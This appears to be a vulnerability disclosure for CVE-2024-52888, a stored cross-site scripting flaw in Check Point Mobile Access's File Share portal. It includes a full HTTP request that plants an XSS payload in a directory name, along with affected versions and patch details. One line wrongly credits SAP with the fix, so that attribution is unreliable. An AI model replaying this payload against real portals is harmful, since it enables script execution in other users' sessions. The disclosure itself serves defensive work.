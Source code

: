 # CVE-2024-52888
Check Point Mobile Access portal File Share application - Cross-Site Scripting (XSS)

## Timeline
- Vulnerability reported to vendor: 13.11.2024
- Public disclosure: 27.04.2025

## Description

A Cross-Site Scripting (XSS) vulnerability has been reported in Check Point Mobile Access portal File Share application. This flaw permits the execution of malicious scripts within the application, potentially compromising its confidentiality and integrity. While the vulnerability does not affect the application’s availability, successful exploitation could lead to unauthorized access to sensitive information and unintended actions performed on behalf of authenticated users.￼

An authenticated attacker could create malicious file or directory names that, when accessed by another authenticated user, may trigger the portal to execute a script while displaying the directory or file properties.

Payload can be saved using following request:
```
POST /sslvpn/HFS/index.php?NFSaction=createDir&Server=[REDACTED]&Share=Portal_Share&dir=. HTTP/1.1
Host: [REDACTED] 
Cookie: [REDACTED] 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------21390880402331902083754323923
Content-Length: 367
Origin: [REDACTED] 
Connection: keep-alive


-----------------------------21390880402331902083754323923
Content-Disposition: form-data; name="dir"

.
-----------------------------21390880402331902083754323923
Content-Disposition: form-data; name="name"


zzz2"><img%20src=x%20onerror='alert(document.domain)'>
-----------------------------21390880402331902083754323923--
```

## Affected versions
* Check Point Mobile Access R81.10
* Check Point Mobile Access R81.20
* Check Point Mobile Access R82 

## Advisory
SAP has addressed this issue in following fixes:
* Jumbo Hotfix Accumulator for R82 starting from Take 14
* Jumbo Hotfix Accumulator for R81.20 starting from Take 99
* Jumbo Hotfix Accumulator for R81.10 starting from Take 173
Users are strongly advised to apply the relevant security patches to mitigate this vulnerability. For detailed information and guidance, please refer to sk183055. ￼

### References
* https://support.checkpoint.com/results/sk/sk183055
* https://support.checkpoint.com/results/sk/sk142952
* https://nvd.nist.gov/vuln/detail/cve-2024-52888
* https://www.cve.org/CVERecord?id=CVE-2024-52888
